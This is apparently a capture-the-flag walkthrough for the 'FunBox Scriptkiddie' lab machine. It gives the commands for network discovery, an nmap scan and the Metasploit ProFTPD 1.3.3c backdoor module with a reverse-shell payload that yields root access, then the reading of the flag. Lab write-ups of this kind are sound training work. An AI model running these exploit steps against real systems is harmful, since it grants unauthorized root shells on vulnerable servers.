

# **FunBox_Scriptkiddie_Walkthrough**

This box was created by **0815R2d2**

We start by running a netdiscover scan to get the IP address:

```sudo netdiscover -r <ip_address_range>```


Then we run an nmap scan on 10.0.2.25: 

```nmap -A -v <ip_address>```


Now, we see a lot of open ports here. My initial reaction was to attack the webpage, so I ran dirb and discovered the webpage was using wordpress. This prompted me run wpscan, but everything was updated and no vulnerabilities were found. I started poking around looking for known vulnerabilities on the other open ports, and I found that there was actually a metasploit module targeting the ftp service.


```
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
```


For this module, you need to set the payload, so we use the command ```set payload cmd/unix/reverse``` and we set the options.

```
show options
set rhosts <ip_address_of_target>
set lhost <your_ip_address>
```



Now we simply type ```exploit``` and **BOOM** we have a reverse shell.


When I get a reverse shell, I always start with ```whoami``` just see where we're at, and in this case, we're already root!


Now, it's just a simple case of poking around the file system to find the flag, and in this case it's in the root directory.

```
ls -la
cd root
ls
cat root.txt
```


And that, folks, is why you always keep your services up to date.
